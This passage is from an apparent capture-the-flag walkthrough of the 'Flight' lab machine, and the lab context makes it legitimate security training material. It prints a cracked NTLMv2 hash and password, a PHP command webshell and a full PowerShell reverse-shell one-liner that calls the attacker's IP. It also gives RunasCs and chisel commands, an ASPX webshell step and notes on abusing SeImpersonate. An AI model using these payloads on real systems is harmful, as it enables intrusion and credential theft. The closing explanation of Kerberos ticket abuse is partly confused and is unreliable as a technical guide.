echo 'c.bum::flight.htb:17d5b761f4a33f2f:5DB137F84725B322F1D060C8911A33C8:010100000000000080A156AD6613DC01DB53B3184F0649420000000002000800460057005300500001001E00570049004E002D0034005700540030004300450052004F0041005000430004003400570049004E002D0034005700540030004300450052004F004100500043002E0046005700530050002E004C004F00430041004C000300140046005700530050002E004C004F00430041004C000500140046005700530050002E004C004F00430041004C000700080080A156AD6613DC01060004000200000008003000300000000000000000000000003000005108C442C3741020BE0C1669030BA6011CB2E34E998B97B6DD2F82EF286BF89D0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003100380030000000000000000000' > cbum_hash
```

then use john to crack it:

```bash
john cbum_hash --wordlist=/usr/share/wordlists/rockyou.txt
```

it was successful:

```bash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Tikkycoll_431012284 (c.bum)     
1g 0:00:00:04 DONE (2025-08-22 13:18) 0.2127g/s 2241Kp/s 2241Kc/s 2241KC/s TinyMutt69..Tiffani29
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

creds obtained:

```bash
c.bum
Tikkycoll_431012284
```

## Checking where we can login with c.bum creds

Since we now have valid creds, lets use my script to bulk check the services that we can connect to via win-rm: [ch3ckkm8/auto_netexec: Automating netexec to bulk check all available services, given the target and the creds to check](https://github.com/ch3ckkm8/auto_netexec)

```bash
./auto_netexec_bulk_creds_checker.sh flight.htb 'c.bum' 'Tikkycoll_431012284'
```

```bash
[*] Checking if winrm port 5985 is open on flight.htb...
[+] Port 5985 open — checking winrm with netexec
WINRM       10.129.228.120  5985   G0               [*] Windows 10 / Server 2019 Build 17763 (name:G0) (domain:flight.htb)
WINRM       10.129.228.120  5985   G0               [-] flight.htb\c.bum:Tikkycoll_431012284

[*] Checking if smb port 445 is open on flight.htb...
[+] Port 445 open — checking smb with netexec
SMB         10.129.228.120  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.129.228.120  445    G0               [+] flight.htb\c.bum:Tikkycoll_431012284 

[*] Checking if ldap port 389 is open on flight.htb...
[+] Port 389 open — checking ldap with netexec
SMB         10.129.228.120  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
LDAP        10.129.228.120  389    G0               [+] flight.htb\c.bum:Tikkycoll_431012284 

[*] Checking if rdp port 3389 is open on flight.htb...
[-] Skipping rdp — port 3389 is closed

[*] Checking if wmi port 135 is open on flight.htb...
[+] Port 135 open — checking wmi with netexec
RPC         10.129.228.120  135    G0               [*] Windows 10 / Server 2019 Build 17763 (name:G0) (domain:flight.htb)
RPC         10.129.228.120  135    G0               [+] flight.htb\c.bum:Tikkycoll_431012284 

[*] Checking if nfs port 2049 is open on flight.htb...
[-] Skipping nfs — port 2049 is closed

[*] Checking if ssh port 22 is open on flight.htb...
[-] Skipping ssh — port 22 is closed

[*] Checking if vnc port 5900 is open on flight.htb...
[-] Skipping vnc — port 5900 is closed

[*] Checking if ftp port 21 is open on flight.htb...
[-] Skipping ftp — port 21 is closed

[*] Checking if mssql port 1433 is open on flight.htb...
[-] Skipping mssql — port 1433 is closed
```

It seems we can login to:  `SMB` `LDAP` `RPC` services, lets enumerate further…

## SMB enumeration as C.Bum

```bash
nxc smb flight.htb  -u 'c.bum' -p 'Tikkycoll_431012284' --shares
```

```bash
SMB         10.129.228.120  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.129.228.120  445    G0               [+] flight.htb\c.bum:Tikkycoll_431012284 
SMB         10.129.228.120  445    G0               [*] Enumerated shares
SMB         10.129.228.120  445    G0               Share           Permissions     Remark
SMB         10.129.228.120  445    G0               -----           -----------     ------
SMB         10.129.228.120  445    G0               ADMIN$                          Remote Admin
SMB         10.129.228.120  445    G0               C$                              Default share
SMB         10.129.228.120  445    G0               IPC$            READ            Remote IPC
SMB         10.129.228.120  445    G0               NETLOGON        READ            Logon server share 
SMB         10.129.228.120  445    G0               Shared          READ,WRITE      
SMB         10.129.228.120  445    G0               SYSVOL          READ            Logon server share 
SMB         10.129.228.120  445    G0               Users           READ            
SMB         10.129.228.120  445    G0               Web             READ,WRITE
```

This user has `WRITE` access to the `Web` share, sth all the previously found user did not have, lets dive in

```bash
smbclient //flight.htb/Web -U 'c.bum%Tikkycoll_431012284'
```

inside there are 2 folders, each one containing the source code for each page we found on the web app earlier

```bash
smb: \> ls
  .                                   D        0  Fri Aug 22 20:22:54 2025
  ..                                  D        0  Fri Aug 22 20:22:54 2025
  flight.htb                          D        0  Fri Aug 22 20:22:00 2025
  school.flight.htb                   D        0  Fri Aug 22 20:22:00 2025

		5056511 blocks of size 4096. 1188972 blocks available
```

The `flight.htb` folder contains:

```bash
smb: \flight.htb\> ls
  .                                   D        0  Fri Aug 22 20:22:00 2025
  ..                                  D        0  Fri Aug 22 20:22:00 2025
  css                                 D        0  Fri Aug 22 20:22:00 2025
  images                              D        0  Fri Aug 22 20:22:00 2025
  index.html                          A     7069  Wed Feb 23 23:58:10 2022
  js                                  D        0  Fri Aug 22 20:22:00 2025

		5056511 blocks of size 4096. 1188972 blocks available
```

The `school.flight.htb` contains:

```bash
smb: \school.flight.htb\> ls
  .                                   D        0  Fri Aug 22 20:22:00 2025
  ..                                  D        0  Fri Aug 22 20:22:00 2025
  about.html                          A     1689  Mon Oct 24 22:54:45 2022
  blog.html                           A     3618  Mon Oct 24 22:53:59 2022
  home.html                           A     2683  Mon Oct 24 22:56:58 2022
  images                              D        0  Fri Aug 22 20:22:00 2025
  index.php                           A     2092  Thu Oct 27 02:59:25 2022
  lfi.html                            A      179  Thu Oct 27 02:55:16 2022
  styles                              D        0  Fri Aug 22 20:22:00 2025

		5056511 blocks of size 4096. 1188972 blocks available
```

Since we have `WRITE` permissions on the whole share, we can similarly upload sth here, maybe sth like a reverse shell.

What kind of revshell tho? hmm lets think smart here, these directories belong to the webapp, and the webapp runs also php.

So any php file we upload there will be executed, this should be our goal, uploading a php revshell.

found this php shell: `php_cmd` from reverse shell generator, and also powershell#2 for the rev shell, then started listener and got shell:

## Uploading web shell

From smb client

```bash
smbclient //flight.htb/Web -U 'c.bum%Tikkycoll_431012284'
```

upload the php webshell using the “put” command on `flight.htb` or `school.flight.htb`

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

once prompted with command line while accessing the phpshell from browser, 


execute this

```php
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.180',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

started listerner

```php
nc -lvnp 9001
```

## Shell as svc_apache

and got a shell as svc_apache


### User privileges (svc_apache)

```bash
whoami /all
```

```bash
Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

Those privileges do not help us

### Group membership of svc_apache

```php
net user svc.apache
```

```php
User name                    svc_apache
Full Name                    
Comment                      Service Apache web
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            9/22/2022 1:08:23 PM
Password expires             Never
Password changeable          9/23/2022 1:08:23 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   8/23/2025 12:32:30 PM

Logon hours allowed          All

Local Group Memberships      
Global Group memberships     *Domain Users         
The command completed successfully.
```

Nothing interesting, lets check other users:

### Group membership of C.Bum

```php
net user c.bum
```

```php
User name                    C.Bum
Full Name                    
Comment                      Senior Web Developer
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            9/22/2022 1:08:47 PM
Password expires             Never
Password changeable          9/23/2022 1:08:47 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   9/22/2022 2:50:24 PM

Logon hours allowed          All

Local Group Memberships      
Global Group memberships     *Domain Users         *WebDevs              
The command completed successfully.
```

Interesting, this user is member of `WebDevs` and the comment is `Senior Web Developer` lets keep that in mind for later.

### Impersonate C.Bum as svc_apache

Those privileges and group membership does not provide any obvious attack path, but lets take a moment here and think, what we already know?

- We currently have shell as `svc_apache`
- We know the **password** of another user (C.Bum)

Based on those 2 statements, we meet the requirements to impersonate user C.Bum! So when we have access to one user, and know the creds of another one we can impersonate that user. 

Why does this work?

- There is a logon feature called "logon with supplied credentials”, where basically If you can type the correct password, Windows will create a new logon session under that user and spawn the requested process.
- One tool that can achieve that is `Runas`
    - It just performs a normal **secondary logon** with the supplied credentials.
    - The new **process** runs **in the security context of the target user**.
    - You don’t "impersonate" at the token level (thread-level impersonation) — you’re **logging on as them** for a new **process**.
    - If the account has the *"Deny log on locally"* or *"Deny log on through Remote Desktop"* rights applied, then `runas` will fail because Windows enforces those logon restrictions.
        - For example:
            
            ### 🔹 1. **What `runas` does**
            
            - When you run `runas /user:DOMAIN\User cmd.exe` and type a password:
                - Windows calls `LogonUser()` with those credentials.
                - If successful, a **new logon session** and **new primary token** for that user is created.
                - Then Windows calls `CreateProcessAsUser()` to start a process under that token.
            
            👉 This means the process (e.g. `cmd.exe`) is running **as that user**, with their primary token.
            
            This is **not impersonation** at all — it’s just process creation under a different user.
            
            ### 🔹 2. **What “impersonation” means in Windows**
            
            - Impersonation in Windows is a **thread-level concept**:
                - A thread temporarily “borrows” another user’s access token to act on their behalf.
                - For example, a web server thread impersonates a client so it can access files on their behalf.
            - This requires `SeImpersonatePrivilege` (or in older cases `SeAssignPrimaryTokenPrivilege`) to be useful in arbitrary scenarios.
            
            👉 This is called **token impersonation**, not process-level logon.
            
            ### 🔹 3. **Process-level impersonation?**
            
            - The term “process-level impersonation” isn’t official in Windows.
            - What people sometimes mean by it is: *“a whole process runs as another user”*.
            - But in Windows terms, that is not “impersonation” — it is just **running a process with a different primary token** (via `runas`, scheduled tasks, `CreateProcessWithLogonW`, etc.).
            
            ✅  **runas vs impersonation**:
            
            - `runas` = **new process with another user’s primary token** (not impersonation).
            - Impersonation = **a thread borrows another user’s token temporarily** (requires `SeImpersonatePrivilege`).
- To conclude, If you (with permission) have a password for another account, you can `runas` it regardless of your current privilege level — unless Group Policy explicitly restricts **local logon**.

Download runas

```bash
wget https://raw.githubusercontent.com/antonioCoco/RunasCs/master/RunasCs.cs
```

Get runas from the attacker machine

```bash
powershell -c wget 10.10.14.180:900/RunasCs.cs -outfile RunasCs.cs
```

or just upload it from smbclient earlier (much easier)

```bash
put RunasCs.cs
```

Run runas

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe -target:exe -optimize -out:RunasCs.exe RunasCs.cs
.\RunasCs.exe c.bum Tikkycoll_431012284 whoami
```

then on another shell execute whoami, lets create a connection towards our host and catch the reverse shell

```bash
.\RunasCs.exe c.bum Tikkycoll_431012284 cmd.exe -r 10.10.14.180:4444
```

```bash
rlwrap nc -lvnp 4444 
```

## Shell as C.Bum


successful! got user flag: `4b75d3d79195394f018dccff2ef81592`

proof:


that was really tough.. lets move on to privesc

---

# Privesc

## Investigating the filesystem

Lets navigate to the filesystem to check for anything usefull:

The `C:` directory:

```php
    Directory: C:\

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        8/23/2025   2:27 PM                inetpub                                                               
d-----         6/7/2022   6:39 AM                PerfLogs                                                              
d-r---       10/21/2022  11:49 AM                Program Files                                                         
d-----        7/20/2021  12:23 PM                Program Files (x86)                                                   
d-----       10/28/2022   1:21 PM                Shared                                                                
d-----        9/22/2022  12:28 PM                StorageReports                                                        
d-r---        9/22/2022   1:16 PM                Users                                                                 
d-----       10/21/2022  11:52 AM                Windows                                                               
d-----        9/22/2022   1:16 PM                xampp 
```

when we got the shell initially as svc_apache, we where inside `xampp` folder in this path: “"C:\xampp\htdocs\school.flight.htb\”. The xampp folder inside has multiple xampp related files and i found nothing interesting there

Regarding the `Users` folder, it contains the user directories, i can only access svc_apache’s and inside i found nothing of value.

As for other folders like `PerfLogs`, `Program Files & (86)` , `Shared` , `StorageReports` , `Windows` nothing useful was found

Last but not least, i noticed the presence of `inetpub` folder, which indicates that **IIS (Internet Information Services)** has been installed, we will keep that in mind for later.

For now, lets run winpeas to see if it we can find sth more helpful, or even find more information about that IIS server running

## Using winpeas

Upload winpeas on this dir “C:\xampp\htdocs\flight.htb”

```php
powershell -c wget 10.10.14.180:800/winPEAS.ps1 -outfile winPEAS.ps1
```

or we could just upload it via the smbclient session we had earlier (easier)

```bash
put winPEAS.ps1
```

For some reason, even tho i run it on the shell, the results were printed on the webshell, also it took a while to run so be patient.

From the very large output, nothing stood out more than the listening ports, thus i decided to focus there especially due to the fact that we earlier found indicators of the presence of an IIS server running, and one of those ports below could be used by that server.


### Listening ports

Lets take a more detailed look at the listening ports via this command:

```php
netstat -ano | findstr LISTENING
```

PROTOCOL  LOCAL ADDRESS  Foreign Address  State  PID

```php
TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       5284
TCP    0.0.0.0:88             0.0.0.0:0              LISTENING       648
TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       912
TCP    0.0.0.0:389            0.0.0.0:0              LISTENING       648
TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       5284
TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
TCP    0.0.0.0:464            0.0.0.0:0              LISTENING       648
TCP    0.0.0.0:593            0.0.0.0:0              LISTENING       912
TCP    0.0.0.0:636            0.0.0.0:0              LISTENING       648
TCP    0.0.0.0:3268           0.0.0.0:0              LISTENING       648
TCP    0.0.0.0:3269           0.0.0.0:0              LISTENING       648
TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
TCP    0.0.0.0:8000           0.0.0.0:0              LISTENING       4
TCP    0.0.0.0:9389           0.0.0.0:0              LISTENING       2980
TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       488
TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1204
TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1744
TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       648
TCP    0.0.0.0:49673          0.0.0.0:0              LISTENING       648
TCP    0.0.0.0:49674          0.0.0.0:0              LISTENING       648
TCP    0.0.0.0:49684          0.0.0.0:0              LISTENING       628
TCP    0.0.0.0:49695          0.0.0.0:0              LISTENING       3028
TCP    0.0.0.0:49725          0.0.0.0:0              LISTENING       3052
```

What is our goal here?? First i found some interesting stuff about `PID = 4`

### PID 4 in Windows

- PID `4` is the **System process** (the kernel).
- When you see `netstat -ano` or `Get-NetTCPConnection` showing PID 4, it usually means a **kernel driver** or **Windows component** is the actual socket owner.
- Example: SMB (port 445), RPC, or even some HTTP listeners (HTTP.sys) can appear as PID 4.

But which port corresponds to the IIS server? how can we know without doing port forwarding and navigating to the webpage manually?

### Correlating listening ports with the IIS server

The command below queries the **HTTP Server (HTTP.sys) kernel driver** and shows the current state of all HTTP-related services and their request queues.

```bash
netsh http show servicestate
```

```bash
Snapshot of HTTP service state (Server Session View): 
----------------------------------------------------- 

Server session ID: FF00000120000001
    Version: 1.0
    State: Active
    Properties:
        Max bandwidth: 4294967295
        Timeouts:
            Entity body timeout (secs): 120
            Drain entity body timeout (secs): 120
            Request queue timeout (secs): 120
            Idle connection timeout (secs): 120
            Header wait timeout (secs): 120
            Minimum send rate (bytes/sec): 150
    URL groups:
    URL group ID: FE00000140000001
        State: Active
        Request queue name: Request queue is unnamed.
        Properties:
            Max bandwidth: inherited
            Max connections: inherited
            Timeouts:
                Timeout values inherited
            Number of registered URLs: 2
            Registered URLs:
                HTTP://+:5985/WSMAN/
                HTTP://+:47001/WSMAN/

Server session ID: FD00000120000001
    Version: 2.0
    State: Active
    Properties:
        Max bandwidth: 4294967295
        Timeouts:
            Entity body timeout (secs): 120
            Drain entity body timeout (secs): 120
            Request queue timeout (secs): 65535
            Idle connection timeout (secs): 120
            Header wait timeout (secs): 120
            Minimum send rate (bytes/sec): 240
    URL groups:
    URL group ID: FF00000040000001
        State: Active
        Request queue name: DefaultAppPool
        Properties:
            Max bandwidth: inherited
            Max connections: 4294967295
            Timeouts:
                Entity body timeout (secs): 120
                Drain entity body timeout (secs): 120
                Request queue timeout (secs): 65535
                Idle connection timeout (secs): 120
                Header wait timeout (secs): 0
                Minimum send rate (bytes/sec): 0
            Logging information:
                Log directory: C:\inetpub\logs\LogFiles\W3SVC1
                Log format: 0
            Authentication Configuration:
                Authentication schemes enabled:
            Number of registered URLs: 1
            Registered URLs:
                HTTP://127.0.0.1:8000:127.0.0.1/

Request queues:
    Request queue name: Request queue is unnamed.
        Version: 1.0
        State: Active
        Request queue 503 verbosity level: Basic
        Max requests: 1000
        Number of active processes attached: 1
        Process IDs:
            3416

    Request queue name: DefaultAppPool
        Version: 2.0
        State: Active
        Request queue 503 verbosity level: Limited
        Max requests: 1000
        Number of active processes attached: 0
        Controller process ID: 3408
        Process IDs:
```

In the above output, the presence of the IIS server is verified according to these 2 indicators

`Request queue name: DefaultAppPool` 

`Log directory: C:\inetpub\logs\LogFiles\W3SVC1`

```
URL group ID: FF00000040000001
        State: Active
        Request queue name: DefaultAppPool
        Properties:
            Max bandwidth: inherited
            Max connections: 4294967295
            Timeouts:
                Entity body timeout (secs): 120
                Drain entity body timeout (secs): 120
                Request queue timeout (secs): 65535
                Idle connection timeout (secs): 120
                Header wait timeout (secs): 0
                Minimum send rate (bytes/sec): 0
            Logging information:
                Log directory: C:\inetpub\logs\LogFiles\W3SVC1
                Log format: 0
            Authentication Configuration:
                Authentication schemes enabled:
            Number of registered URLs: 1
            Registered URLs:
                HTTP://127.0.0.1:8000:127.0.0.1/
```

So as seen above, the associated port is `8000`

I then automated the process for future reference, using my custom powershell script to identify IIS presence with associated port:

```bash
.\listenports.ps1

[+] Collecting IIS servicestate...
[+] IIS-registered ports found:

Port    URL                              AppPool       
----    ---                              -------       
unknown HTTP://127.0.0.1:8000:127.0.0.1/ DefaultAppPool
```

```powershell

Write-Host "`n[+] Collecting IIS servicestate..."
$servicestate = netsh http show servicestate

$results = @()
$currentQueue = $null

foreach ($line in $servicestate) {
    if ($line -match "Request queue name:\s+(.*)") {
        $currentQueue = $Matches[1]
    }
    elseif ($line -match "^\s*HTTP") {
        # Skip unnamed queues (non-IIS)
        if ($currentQueue -eq "Request queue is unnamed.") { continue }

        $url = $line.Trim()
        # Extract port number from URL (after last :)
        if ($url -match ":(\d+)/") {
            $port = $Matches[1]
        } else {
            $port = "unknown"
        }
        $results += [PSCustomObject]@{
            Port    = $port
            URL     = $url
            AppPool = $currentQueue
        }
    }
}

if ($results) {
    Write-Host "[+] IIS-registered ports found:`n"
    $results | Sort-Object Port | Format-Table -AutoSize
} else {
    Write-Host "[!] No IIS ports found in servicestate."
}
```

## Port forwarding

Since we have found earlier that port `8000` was bound to an IIS server, lets port forward towards our attacker machine to get access to it

### Using chisel

- Download chisel

```bash
wget https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_windows_amd64.gz
```

- then run local server for transferring

```bash
python -m http.server 800
```

- on target host retrieve the executable

```bash
powershell -c wget 10.10.14.180:800/chisel.exe -outfile chisel.exe
```

- on attacker machine:

```bash
chisel server -p 8000 --reverse
```

- inside the target host:

```bash
.\chisel.exe client 10.10.14.180:8000 R:8001:127.0.0.1:8000
```

The screenshot below shows that the port forwarding was successful:


Next visit [`http://127.0.0.1:8001`](http://127.0.0.1:8001/) , and there is the webpage:


## Banner grabbing

```bash
whatweb 127.0.0.1:8001
```

```bash
http://127.0.0.1:8001 [200 OK] Bootstrap, Country[RESERVED][ZZ], Frame, Google-API[ajax/libs/jquery/1.10.2/jquery.min.js], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[127.0.0.1], JQuery[1.10.2,1.11.2], Microsoft-IIS[10.0], Modernizr[2.8.3-respond-1.4.2.min], Script[text/javascript], Title[Flight - Travel and Tour], X-Powered-By[ASP.NET], X-UA-Compatible[IE=edge], YouTube
```

As indicated earlier on from our investigation, its an `IIS server` (Microsoft-IIS[10.0]) , but how can we move forward????

## Understanding the IIS server

With little research i found that the **Default IIS Web Site root folder is:**

```
C:\inetpub\wwwroot
```

so lets hop in the shell we had earlier as C.Bum and navigate towards the above dir

```bash
Directory of C:\inetpub

08/23/2025  04:00 PM    <DIR>          .
08/23/2025  04:00 PM    <DIR>          ..
09/22/2022  12:24 PM    <DIR>          custerr
08/23/2025  04:01 PM    <DIR>          development
09/22/2022  01:08 PM    <DIR>          history
09/22/2022  12:32 PM    <DIR>          logs
09/22/2022  12:24 PM    <DIR>          temp
09/22/2022  12:28 PM    <DIR>          wwwroot
               0 File(s)              0 bytes
               8 Dir(s)   4,088,504,320 bytes free
```

### Webpage content directory

Lets find where the content is located:

`wwwroot` Directory

```bash
Directory of C:\inetpub\wwwroot

09/22/2022  12:28 PM    <DIR>          .
09/22/2022  12:28 PM    <DIR>          ..
09/22/2022  12:28 PM    <DIR>          aspnet_client
09/22/2022  12:24 PM               703 iisstart.htm
09/22/2022  12:24 PM            99,710 iisstart.png
               2 File(s)        100,413 bytes
               3 Dir(s)   4,088,504,320 bytes free
```

this dir does not contain the contents

`development` Directory 

```bash
Directory of C:\inetpub\development

08/23/2025  04:12 PM    <DIR>          .
08/23/2025  04:12 PM    <DIR>          ..
04/16/2018  02:23 PM             9,371 contact.html
08/23/2025  04:11 PM    <DIR>          css
08/23/2025  04:12 PM    <DIR>          fonts
08/23/2025  04:12 PM    <DIR>          img
04/16/2018  02:23 PM            45,949 index.html
08/23/2025  04:12 PM    <DIR>          js
               2 File(s)         55,320 bytes
               6 Dir(s)   4,020,420,608 bytes free
```

This does contain the webpage content, so **whatever we upload on this directory will be accessible from the browser.**

**But what user has permissions to upload there??**

Lets get back to the shell we had as `svc_apache`, since its an IIS server we wanna see which user has write permissions on the `development` directory, and **it seems that user C.Bum has write permissions**! (indicated by the W in parenthesis on the 2nd line below)


Next, what if we follow the same approach like we did for getting shell as svc_apache? 

Since we have write permissions on the development directory, lets try uploading the php shell we used for svc_apache:

## Uploading webshell on the IIS server

retrieve the file inside the target:

```bash
powershell -c wget 10.10.14.180:800/rev5.php -outfile rev5.php
```

hm tried to upload it but its not found when navigating to it:


Why didnt this work? Well i later discovered that **PHP is not native to IIS** and By default, IIS is set up to run **ASP.NET applications**.

Well since php wont work, lets try other languange, and specifically the one thats native to IIS, so `aspx` shell, i used this:

https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx

retrieve the file inside the target:

```bash
powershell -c wget 10.10.14.180:800/cmd.aspx -outfile cmd.aspx
```

this works! By default these values are filled, lets input the command we want:


I will use this command:

```bash
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.180',9005);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

but first, we need to find the path, lets get on C.Bum shell and check where is the powershell located:

```bash
C:\inetpub\development>where powershell
where powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```

okay inside the fields of the webshell we paste the following:

- Program

```bash
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```

- Arguments: (the rest of the command)

```bash
-nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.180',9005);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

→ got shell



Great! we got shell, but as what user?? the user is `iis apppool` , what is this user? well obviously its related to the IIS server but lets find more.

## Shell as IIS APPPOOL

### What is user iis apppool\defaultapppool ?

According to Microsoft, `IIS AppPool\<AppPoolName>` is a **service account** created by IIS to run an application pool.

- Internally, it **can authenticate to other services using the machine account** (`DOMAIN\MACHINENAME$`) when the app pool accesses network resources — basically, it acts as the computer account on the network.
- This is why we can grab a **Kerberos ticket (TGS)** for the machine account if we have code execution (in our case we do have) as the app pool identity, because the app pool is able to request tickets using its machine account delegation/impersonation rights.

Furthermore, for future reference i created these bullet points:

### **Attack Vectors via AppPool Identity**

1. **Local File System**
    - Check `wwwroot` and temp folders for writable paths.
    - Upload web shells or malicious DLLs if writable.
    - Look for sensitive configuration files (web.config with credentials).
2. **Local Privilege Escalation**
    - Misconfigured permissions (folders, registry, services) could allow escalation to SYSTEM.
    - Exploit `SeImpersonatePrivilege` if available for token impersonation (e.g., Rubeus, JuicyPotato, RottenPotato).
3. **Network / Machine Account**
    - AppPool can authenticate as the **machine account** (`DOMAIN\MACHINENAME$`) on the network.
    - With code execution, you can:
        - Request Kerberos TGS for the machine account (`Rubeus` → ticket harvesting / overpass-the-hash attacks).
        - Access network shares or services that trust the machine account.
        - Pivot laterally to other machines.
4. **Other Web Apps / Services**
    - If multiple apps share the same pool, compromise may affect all of them.
    - Look for sensitive app logic or credentials exposed internally.
5. **Persistence**
    - Upload scheduled tasks, backdoor DLLs, or modify IIS configuration if permissions allow.

## Check user’s privileges

```bash
whoami /all
```

```bash
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

The most interesting one to me here after researching it is the `SeImpersonatePrivilege` . By the name of it, it indicates impersonating other users/accounts.

## What is the privilege **SeImpersonate** ?

- In Windows, **SeImpersonatePrivilege** is a user right that allows a process to **impersonate the security context of another user** on the same system.
- A process with this privilege can take another user’s token (session) and execute actions **as if it were that user**.
- This is commonly used for services that need to act on behalf of a logged-in user, but in pentesting it can be abused for **privilege escalation or ticket requests**.

### So in our case:

- **DefaultAppPool** is a service account running on the host.
- On Windows, many services running as **SYSTEM or AppPool accounts** have **SeImpersonatePrivilege** by default.
- This means a process running as DefaultAppPool can **impersonate other accounts on the machine**, including the machine account itself (`MACHINE$`).

### What impersonating the MACHINE$ account locally means

1. DefaultAppPool runs Rubeus.
2. Rubeus uses **SeImpersonatePrivilege** to grab the **token of the MACHINE$ account** on the local host. (the token contains also creds for the user)
3. While impersonating MACHINE$, Rubeus can request Kerberos tickets from the DC **as if it were MACHINE$**.
4. The KDC trusts the request and issues a **legitimate Silver Ticket** for a service on the host.

### Why this works without the machine account password

- Normally, to forge a Silver Ticket, you need the **NTLM hash of MACHINE$**.
- Here, because DefaultAppPool can impersonate MACHINE$, the ticket is **issued legitimately by the DC**, so no password or hash is required.
- This is a **local privilege escalation combined with Kerberos ticket request**, a common attack path in Active Directory pentesting.

### Why not impersonate Administrator directly?

Even though **DefaultAppPool has some privileges**, it **cannot directly impersonate the Administrator account** unless certain conditions are met. Let me break it down carefully:

### 1️⃣ SeImpersonatePrivilege vs. actual tokens

- **SeImpersonatePrivilege** allows a process to **impersonate tokens that already exist** on the machine.
- The key is: the token must be **active/logged-on or present in memory**.
- **DefaultAppPool** usually runs under a service account and can see **some local system or machine account tokens**, but it **cannot arbitrarily create or access Administrator tokens** unless an Administrator is currently logged in or has a process running that the AppPool can grab.

### 2️⃣ Why MACHINE$ works

- MACHINE$ always has a **token available locally**, because the machine account is the identity of the host in the domain.
- Windows automatically creates and maintains the MACHINE$ token for local operations and Kerberos authentication.
- DefaultAppPool can **impersonate MACHINE$** because that token exists and the AppPool has SeImpersonatePrivilege.

### 3️⃣ Why Administrator is harder

- Administrator tokens exist only when someone is logged in or when a process runs as Administrator.
- On most servers, **Administrator is not actively logged in**, and DefaultAppPool cannot spawn one.
- Without an Administrator token to grab, SeImpersonatePrivilege **cannot be used to impersonate it directly**.

### 4️⃣ Practical implications

- By impersonating MACHINE$, you can **legitimately request a Silver Ticket** from the KDC.
